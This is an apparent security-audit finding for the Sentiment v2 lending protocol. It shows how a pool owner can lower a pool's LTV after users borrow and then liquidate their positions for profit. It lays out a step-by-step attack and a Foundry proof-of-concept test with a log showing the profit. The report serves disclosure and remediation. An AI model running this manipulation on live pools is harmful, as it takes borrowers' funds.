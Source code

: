 Smooth Opal Chameleon

High

# The owner of pool can manipulate the `ltv` to liquidate others' positions for profit

## Summary
Issue High: The owner of pool can manipulate the `ltv` to liquidate others' positions for profit

## Vulnerability Detail

In the contract `RiskEngine.sol`, the owner of pool can change `ltv` of the pool using functions `requestLtvUpdate` and `acceptLtvUpdate`

[RiskEngine](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/RiskEngine.sol#L167-L210)

```solidity
    function requestLtvUpdate(uint256 poolId, address asset, uint256 ltv) external {
        if (msg.sender != pool.ownerOf(poolId)) revert RiskEngine_OnlyPoolOwner(poolId, msg.sender);

        // set oracle before ltv so risk modules don't have to explicitly check if an oracle exists
        if (oracleFor[asset] == address(0)) revert RiskEngine_NoOracleFound(asset);

        // ensure new ltv is within global limits. also enforces that an existing ltv cannot be updated to zero
        if (ltv < minLtv || ltv > maxLtv) revert RiskEngine_LtvLimitBreached(ltv);

        // Positions cannot borrow against the same asset that is being lent out
        if (pool.getPoolAssetFor(poolId) == asset) revert RiskEngine_CannotBorrowPoolAsset(poolId);

        LtvUpdate memory ltvUpdate;
        // only modification of previously set ltvs require a timelock
        if (ltvFor[poolId][asset] == 0) ltvUpdate = LtvUpdate({ ltv: ltv, validAfter: block.timestamp });
        else ltvUpdate = LtvUpdate({ ltv: ltv, validAfter: block.timestamp + TIMELOCK_DURATION });

        ltvUpdateFor[poolId][asset] = ltvUpdate;

        emit LtvUpdateRequested(poolId, asset, ltvUpdate);
    }

    /// @notice Apply a pending LTV update
    function acceptLtvUpdate(uint256 poolId, address asset) external {
        if (msg.sender != pool.ownerOf(poolId)) revert RiskEngine_OnlyPoolOwner(poolId, msg.sender);

        LtvUpdate memory ltvUpdate = ltvUpdateFor[poolId][asset];

        // revert if there is no pending update
        if (ltvUpdate.validAfter == 0) revert RiskEngine_NoLtvUpdate(poolId, asset);

        // revert if called before timelock delay has passed
        if (ltvUpdate.validAfter > block.timestamp) revert RiskEngine_LtvUpdateTimelocked(poolId, asset);

        // revert if timelock deadline has passed
        if (block.timestamp > ltvUpdate.validAfter + TIMELOCK_DEADLINE) {
            revert RiskEngine_LtvUpdateExpired(poolId, asset);
        }

        // apply changes
        ltvFor[poolId][asset] = ltvUpdate.ltv;
        delete ltvUpdateFor[poolId][asset];
        emit LtvUpdateAccepted(poolId, asset, ltvUpdate.ltv);
    }
```

So, a malicious user can do operations as follows:
1.create a pool by invoking the function `initializePool`
2.set the `ltv` of the pool to be `maxLtv` by invoking the function `requestLtvUpdate` and `acceptLtvUpdate`
3.waiting for victims to borrow asset from this pool.
4.propose a request to set the `ltv` of the pool to be `minLtv` by invoking the function `requestLtvUpdate`
5.wait for a `TIMELOCK_DURATION` to invoke the function `acceptLtvUpdate` and liquidate the unhealthy positions due to the change of `ltv` in one transaction.
6.the malicious owner of the pool can get profit from the liquidation.


## Proof of Concept

Attention:in the poc the price of asset1 equals the price of asset2

1.add this import in test/integration/LiquidationTest.t.sol

```solidity
import {console} from "forge-std/console.sol";
```

2.add this poc in test/integration/LiquidationTest.t.sol

```solidity
    function testLiquidate_poc() public {
      
        uint256 TIMELOCK_DURATION = 24 * 60 * 60;

        vm.startPrank(poolOwner);
        riskEngine.requestLtvUpdate(fixedRatePool, address(asset2), riskEngine.maxLtv()); // maxltv 0.8e18
        vm.warp(block.timestamp+TIMELOCK_DURATION);
        riskEngine.acceptLtvUpdate(fixedRatePool, address(asset2));
        vm.stopPrank();
        

        vm.startPrank(user);
        asset2.approve(address(positionManager), 1e18);

        // deposit 1e18 asset2, borrow 1e18 asset1
        Action[] memory actions = new Action[](4);
        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
        actions[1] = deposit(address(asset2), 1e18);
        actions[2] = addToken(address(asset2));
        actions[3] = borrow(fixedRatePool, 0.7e18);
        positionManager.processBatch(position, actions);
        assertTrue(riskEngine.isPositionHealthy(position));

        vm.stopPrank();

        asset1.mint(poolOwner, 1e18);

        console2.log("Beforeliqudate asset1.balanceOf(poolOwner)",asset1.balanceOf(poolOwner));
        console2.log("Beforeliqudate asset2.balanceOf(poolOwner)",asset2.balanceOf(poolOwner));

        vm.startPrank(poolOwner);
        riskEngine.requestLtvUpdate(fixedRatePool, address(asset2), riskEngine.minLtv()); // minltv 0.2e18
        vm.warp(block.timestamp+TIMELOCK_DURATION);
        riskEngine.acceptLtvUpdate(fixedRatePool, address(asset2));

        assertFalse(riskEngine.isPositionHealthy(position));

        // construct liquidator data
        DebtData memory debtData = DebtData({ poolId: fixedRatePool, amt: type(uint256).max });
        DebtData[] memory debts = new DebtData[](1);
        debts[0] = debtData;
        AssetData memory asset1Data = AssetData({ asset: address(asset2), amt: 877395619438740590 });
        AssetData[] memory assets = new AssetData[](1);
        assets[0] = asset1Data;

        // liquidate
        asset1.approve(address(positionManager), 1e18);
        positionManager.liquidate(position, debts, assets);
        vm.stopPrank();

        console2.log("Afterliqudate asset1.balanceOf(poolOwner)",asset1.balanceOf(poolOwner));
        console2.log("Afterliqudate asset2.balanceOf(poolOwner)",asset2.balanceOf(poolOwner));

    }
```

log
```solidity
[PASS] testLiquidate_poc() (gas: 859305)
Logs:
    //Attention:in the poc the price of asset1 equals the price of asset2
  Beforeliqudate asset1.balanceOf(poolOwner) 1000000000000000000
  Beforeliqudate asset2.balanceOf(poolOwner) 0

  Afterliqudate asset1.balanceOf(poolOwner) 298083504449007528
  Afterliqudate asset2.balanceOf(poolOwner) 877395619438740590
```

## Impact

The owner of pool can manipulate the `ltv` to liquidate others' positions for profit.

## Code Snippet

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/RiskEngine.sol#L167-L210

## Tool used
Manual Review

## Recommendation
Restrict the permissions of pools' owner.